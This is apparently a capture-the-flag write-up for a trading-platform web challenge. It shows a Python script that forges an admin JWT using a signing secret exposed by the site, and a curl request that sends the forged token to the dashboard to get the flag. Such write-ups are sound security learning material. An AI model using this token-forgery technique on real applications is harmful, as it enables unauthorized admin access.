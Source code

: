 # URL
https://host5.metaproblems.com:7606/

# Concept
We were given a trading platform website where we had to login as admin to get the flag but we were only given user logins.
- Jwt manipulation

# Solve
On logging in as user, I inspected the cookies and noticing that we have a jwt token for the current user. I wrote a python script to
manipulate the user token into an admin token.
~~~
import jwt
import time

# The secret from the 'jwt' header
secret = "jwt_z3bXPravDcYhjy5mhYgYLbWRoAPkPyn"

# Create payload for 'admin'
payload = {
    "sub": "admin",
    "iat": int(time.time()),
    "exp": int(time.time()) + 7200  # 2 hours from now
}

# Sign the token
token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
~~~
After I used curl to send the token
~~~
curl -k -H "Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbiIsImlhdCI6MTc2MTIyODA5NSwiZXhwIjoxNzYxMjM1Mjk1fQ.ZJUOMnUgQvYVZGB-X8ucKsq86Vf8U4KOTbCUPZ5QiTE" \
  https://host5.metaproblems.com:7606/dashboard
~~~
Another method was to replace the jwt token in the browser and get the flag.

